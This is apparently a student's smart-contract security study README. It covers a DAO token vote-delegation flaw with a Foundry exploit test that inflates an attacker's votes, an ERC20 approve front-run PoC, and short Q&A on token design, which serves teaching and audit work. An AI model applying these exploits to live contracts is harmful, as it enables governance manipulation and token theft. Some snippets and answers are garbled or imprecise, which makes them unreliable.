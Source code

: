 # contracts-safety-study

## Vulnerability Analysis

#### 1. Balance account for voting power

token balance should not account for voting power, can use `ERC20Votes.sol` for better checkpoints implementations, `ERC20Votes.sol` extension keeps a history (checkpoints) of each account's vote power, the downside is that it
requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked, and to keep in mind is that voting is usually handled by governance contracts.

ps: also it save more gas, can vote without spending gas, because the delegatee is using voting on their behalf

`ERC20Votes.sol` source : <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Votes.sol>

```sh
function _delegate uint256 _addrBalance = balanceOf(_addr);
```

#### 2. The votes getter function didn't check the availability of checkpoints

`getVotes` function doesn't check the availability of checkpoints. This means that vote powers can still remain transferable, even after member has delegated to another user and transferred tokens to other members

## POC

* Hacker control `alice` account to delegates vote power to himself, so he can create a proposal or vote on a proposal
* After delegation completed, transfer 1000 tokens to other dao member (bob, Carol), repeat the same process
* Control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
* Finish all the delegations & transfer tokens to hacker himself
* Now hacker has 3000 vTokens and also 1000 vTokens

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "contracts/hack/governance/DaoToken.sol";

contract exploitTest is Test {
 DaoToken daoToken;
 address public owner = address(0);
 address public hacker =address(1337);

 address public alice= address(1);
 address public bob = address(2);
 address public carol = address(3);

 function setUp() public {
  vm.startPrank(owner);
  daoToken = new DaoToken();
  daoToken.mint(alice, 1000);
  vm.stopPrank();
  }

 function testExploit() public {
    vm.startPrank(alice);
    //hacker control alice account to delegates vote power to himself, so he can create a proposal or vote on a proposal
    daoToken.delegate(hacker);
    daoToken.getVotes(alice);
    //transfer 1000 tokens to other dao member (bob, Carol)
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    // control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);

    vm.startPrank(carol);
    daoToken.delegate(hacker);


    // now hacker should has 3000 votes, hacker also wanna transfer 1000 tokens to himself
    daoToken.transfer(hacker, 1000);
    vm.stopPrank();

 uint hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

 uint hacker_balance= daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

 assertEq(hacker_vote , 3000);
 assertEq(hacker_balance, 1000);
    }

}
```

## Group Assignments

<https://docs.google.com/presentation/d/1rjvzU7y3j6_k4SY-PuKBs-F7jb4E4UZwPqKDohSYJas/edit#slide=id.g269bc814b66_0_107>

##### Q: Why the state variable _totalSupply is set to private?

these private states indicate that these variables should not be allowd to be modified or also be inherited the corresponding contract

##### Q: Why the state variable _balances is set to private?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is difference between _msgSender() and msg.sender?

The _msgSender() is a virtual function that can be overridden, so for a basic smart contract, it doesn't do much, it just returns msg.sender

But for a GSN-like contract, _msgSender is overridden and_msgSender would return the sender via payload(maybe msg.data) and not the actual caller

##### Q: Why the state variable _allowances is set to private ?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is the potential risk of directly overwriting the old value of _allowance? (Write a PoC to validate it)

Poc Action : Allowance front-run attack

* Front run ERC20 approve
* Owner approves 1000
* Spender spend 1000
* Owner updates approval to 100
* Spender spend 100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test, console2} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract ERC20ApproveTest is Test {
    // Front run ERC20 approve
    // 1. Owner approves 1000
    // 2. Spender spend 1000
    // 3. Owner updates approval to 100
    // 4. Spender spend 100
    Token private token;
    address private constant owner = address(11);
    address private constant spender = address(12);

    function setUp() public {
        token = new Token("token", "TOKEN", 18);
        token.mint(owner, 2000);
    }

    function test() public {
        // Owner approves 1000
        vm.prank(owner);
        token.approve(spender, 1000);

        // Spender spends 1000
        vm.prank(spender);
        token.transferFrom(owner, spender, 1000);

        // Owner updates approval to 100
        vm.prank(owner);
        token.approve(spender, 100);

        // Spender spends 100
        vm.prank(spender);
        token.transferFrom(owner, spender, 100);

        console2.log("spender balance", token.balanceOf(spender));
    }
}
```

##### Q: Zero address is invalid in ERC721, but not in ERC20 and ERC1155. Why?

ERC-20 and ERC-1155, on the other hand, do not have this restriction by default, and the decision to support or disallow transfers to the zero address is left to the developers implementing those standards

##### Q: What doest the assembly block actually do?

Solidity Assembly allowing developers to write lower-level code directly

